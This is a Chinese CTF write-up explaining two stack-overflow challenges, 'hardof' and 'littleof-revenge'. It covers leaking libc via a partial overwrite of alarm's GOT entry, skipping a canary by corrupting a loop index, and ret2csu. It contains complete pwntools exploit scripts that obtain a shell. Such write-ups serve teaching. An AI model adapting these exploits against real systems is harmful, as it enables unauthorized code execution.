






# 前言
最近做了两道题目，感觉学到了很多，基础典型题目还是需要多熟悉一下，下面就分享一下做题的思路，一个是noleak，没有提供泄露函数如何去实现泄露地址；一个是在具有栈溢出，但开启了canary的情况下，没有泄露函数，read逐字节读入，通过覆盖buffer的index控制溢出点，跳过canary，实现覆盖返回地址。
# hardof <无泄露函数，修改alarm为syscall>
题目名为hardof，检查保护只开了NX保护，看下ida代码：
```c
ssize_t sub_400532()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0x100uLL);
}
```
关键的函数，只有这一个溢出点，没有其他泄露函数，没有system，所以要泄露libc，执行system，重点就在如何泄露libc，这里可以利用pwn题一般都会有的alarm函数，利用它的地址和syscall的偏移，利用溢出和ROP修改alarm地址最后一个字节，使其指向alarm函数中syscall那条指令，然后通过write函数泄露出alarm的地址，获取libc。
## 分析
已知一个栈溢出，溢出长度为0x48，没有输出函数可以泄露，可以利用修改alarm的最后一个字节来转向syscall实现系统调用，通过write来泄露alarm的地址，再通过溢出获取shell，具体过程如下
1. 通过溢出覆盖返回地址为read，通过ROP实现修改alarm最后一个字节（注意用send()函数发送）
2. 接着返回到ROP链去修改write函数的相关寄存器
3. 继续返回到alarm的plt处触发已经修改的alarm_got，执行syscall write实现泄露alarm地址
4. 获取system、/bin/sh地址，获取shell。
## 修改alarm最后一字节
通过查找pop_rdi、pop_rsi_r15 的ROP链、read的plt表，实现用read修改alarm最后一字节
```bash
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rdi
0x00000000004005e3 : pop rdi ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rsi
0x00000000004005e1 : pop rsi ; pop r15 ; ret
➜  附件 ROPgadget --binary hardof --only 'pop|ret' |grep rax
➜  附件 
```
```python
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt)
```
栈上的布局：



## 修改write相关寄存器，触发syscall
再利用ROP为write函数提供参数，参数为alarm got表地址，用来泄露alarm地址，随后让其返回到alarm plt调用alarm触发syscall实现输出alarm地址。这里有个隐含的点，没有控制rax的ROP，syscall的系统调用号怎么给eax的？这里主要是利用read的返回值，读入几个字符就返回个数几到eax，所以这里读入一字节后eax寄存器就是1，write函数的系统调用号刚好是1，实现了write的syscall
```python
    buff += p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    sn(buff)
    sleep(1)
    sn('\x19')
    sleep(1)
```
查看alarm地址，可以看到syscall命令最后一字节是0x19，所以发送0x19将alarm最后一字节改为0x19:
```bash
gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff10      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000

gef➤  disassemble 0x00007f0f80c6ff10
Dump of assembler code for function alarm:
    0x00007f0f80c6ff10 <+0>:     endbr64 
    0x00007f0f80c6ff14 <+4>:     mov    eax,0x25
    0x00007f0f80c6ff19 <+9>:     syscall      <----------
    0x00007f0f80c6ff1b <+11>:    cmp    rax,0xfffffffffffff001
    0x00007f0f80c6ff21 <+17>:    jae    0x7f0f80c6ff24 <alarm+20>

gef➤  x/16gx 0x601018
0x601018 <alarm@got.plt>:       0x00007f0f80c6ff19      0x00007f0f80c9b130
0x601028:       0x0000000000000000      0x0000000000000000
0x601038:       0x0000000000000000      0x0000000000000000
```
可以看到已经改成功，然后开始返回到alarm plt泄露alarm地址，之后返回main函数继续利用获取shell
## 获取shell
拿到alarm地址后可以通过偏移计算libc地址，由于我们更改了最后以字节从0x10->0x19,所以最后要减去9
```python 
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
```
再利用溢出覆盖返回地址获取shell
```python
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
```
## exp
此题核心点在于修改alarm最后一字节为syscall去实现利用，除了用syscall write泄露libc外还可以用ret2csu的原理去syscall execve去获取shell，以下给出exp
```python
# ret2libc
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(alarm_plt) + p64(main_addr)
    
    sn(buff)
    sleep(1)
    sn('\x19')
    gdb.attach(p)
    sleep(1)
    #libc.address = u64(rv(8)) - 5 - libc.symbols['alarm'] # 18.04
    libc.address = u64(rv(8)) - 9 - libc.symbols['alarm'] # 20.04
    lg("Libc", libc.address)
    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(sh_addr) + p64(system_addr)
    sn(buff)
    p.interactive()
```
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./hardof"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    bss = 0x601038
    pop_rdi = 0x00000000004005e3
    ret = 0x0000000000400416
    pop_rsi_r15 = 0x04005e1
    main_addr = 0x400553
    alarm_got = elf.got["alarm"]
    alarm_plt = elf.plt["alarm"]
    read_plt = elf.plt["read"]
    
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(read_plt) + p64(main_addr)
    #gdb.attach(p)
    sn(buff)
    sleep(1)
    
    sn('/bin/sh\x00')
    sleep(1)
    buff = 'A' * 0x48 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(alarm_got) + p64(0) + p64(read_plt) 
    buff += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(bss+24) + p64(0) + p64(read_plt) 
    buff += p64(0x4005DA) + p64(0)+p64(1)+p64(alarm_got)+p64(bss)+p64(0)+p64(0)+p64(0x4005C0)
    sn(buff)
    
    sleep(1)
    sn('\x15') # ubuntu 18.04
    #sn('\x19') #ubuntu20.04
    sleep(1)
    #gdb.attach(p)
    sn('a'*0x3b)
    p.interactive()
```
# littleof-revenge  <控制buffer下标实现溢出，及绕过canary>
题目保护开启了NX，canary，ida看下题目,没有system，只有以下一个函数存在溢出，溢出长度为0x58，逻辑：
```c
unsigned __int64 sub_4006A2()
{
  char v1[64]; // [rsp+10h] [rbp-50h] BYREF
  int i; // [rsp+50h] [rbp-10h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Do you know how to do buffer overflow?");
  for ( i = 0; i != 0x41; ++i )
  {
    read(0, &v1[i], 1uLL);
    if ( v1[i] == '\n' )   <----------漏洞点
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}

```
## 分析
这里看似没啥问题，但是需要注意的是，这里read是一个字节一个字节读的，结束循环条件为`i!=0x41`（这个条件也很危险，一旦i变成比0x41大的数，就会出现溢出），常理说当i增加到0x41的时候执行完就会跳出循环，或者字符等于`\n`的时候，但是注意这里是按照`&buf+i`的方式写入的，如果我们再写入的时候能够控制i的大小就可以控制其写入的起始地方，这里当然也可以这跟i这个变量的存储位置有关，经过ida反编译后看不出i的位置，可以看汇编有所体现（也可调试更直观地看到）：
```bash
.text:00000000004006A2                 push    rbp
.text:00000000004006A3                 mov     rbp, rsp
.text:00000000004006A6                 sub     rsp, 60h
.text:00000000004006AA                 mov     rax, fs:28h       <--rax = canary>
.text:00000000004006B3                 mov     [rbp+var_8], rax  <--[rbp-8] = rax = canary>
.text:00000000004006B7                 xor     eax, eax
.text:00000000004006B9                 lea     rax, [rbp+var_50] <------rax=[rbp-0x50] buf首地址>
.text:00000000004006BD                 add     rax, 40h ; '@'    <------rax = buf + 0x40 = i
.text:00000000004006C1                 mov     [rbp+var_58], rax <------[rbp-0x58] = buf+0x40 = i>
.text:00000000004006C5                 lea     rdi, s          ; "Do you know how to do buffer overflow?"
...
...
.text:000000000040070B                 cmp     al, 0Ah
.text:000000000040070D                 jz      short loc_40072B
.text:000000000040070F                 mov     rax, [rbp+var_58] <--rax = [rbp-0x58] = i>
.text:0000000000400713                 mov     eax, [rax]
.text:0000000000400715                 lea     edx, [rax+1]      <-- i+1 等同于地址加一>
.text:0000000000400718                 mov     rax, [rbp+var_58]
.text:000000000040071C                 mov     [rax], edx        <-- i = i + 1>
```
由汇编可以看到，计数的i存在buf+0x40的地方，存在被覆盖的风险，一旦被覆盖，i的之就会变，可以利用这点将i覆盖成大于0x41的数从而实现溢出，而选择写入地址为canary后即可跳过canary，从而实现覆盖返回地址。
## 利用思路
1. 通过溢出点覆盖i为0x54，实现溢出并且跳过canary
2. 返回地址为put_plt,将put地址泄露出来，获取libc
3. 同样利用溢出覆盖返回地址为system，拿到shell
## 覆盖技计数i，实现溢出和跳过canary
可以构造下面payload：
```python
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```
可以调试可以看到循环read(buf[i])的时候,i存在buf+0x40处：



可以看到i被存在buf+0x40处，当覆盖到0x40时，可以将i覆盖成0x54，跳过canary，这里0x54选取有一定技巧，刚好跳过canary，且指向buf+0x55(rbp+5)的地方：



此时是没有被覆盖，当再次read时，i就会被覆盖成0x54,跳过canary到buf+0x55的地方



看一下发送的数据



再次执行read会将buf+0x55以及以后的字节覆盖，这里可以使用p32(0x123454),末字节54填充i，剩余0x001234用于填充rbp剩余部分字节对齐.
## 泄露put地址，获取libc
之后填充pop_rdi,put_got,put_plt,main,泄露put地址，拿到libc，然后用同样的方法覆盖返回地址为system拿到shell。


## 获取shell

```python
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
```
这里得说一下，p64(ret)的作用，system的系统调用要求内存16字节对齐，ret的作用就是对齐。



在没有ret的时候后正常应该在0x7ffd54354818处填充system，但是该地址不对齐，填充一个ret(8字节)，system填充在0x7ffd54354820处，字节对齐，如下
```python
>>> 0x7ffd54354818/16.0
8795376014465.5
>>> 0x7ffd54354820/16.0
8795376014466.0
```
## exp
```python
from pwn import *

remote_addr=['127.0.0.1',49156] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.log_level=True
context.terminal = ['tmux','sp','-h']
#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./littleof_revenge"
p = process(elf_path)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
    gdb.attach(p)
    p.sendline(buff)
    puts_addr = raddr(6)
    libc.address = puts_addr - libc.symbols["puts"]
    lg("libc address", libc.address)

    system_addr = libc.symbols["system"]
    sh_addr = libc.search("/bin/sh").next()
    ru("?\n")
    buff = "A" * 0x40 + p32(84) + p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(system_addr)
    p.sendline(buff)
    p.interactive()
```
# 总结
以上结合两个例子总结了两种简单基础的栈溢出且没有泄露函数的不同情况的利用方式，其中第一种是比较常用的利用方法。
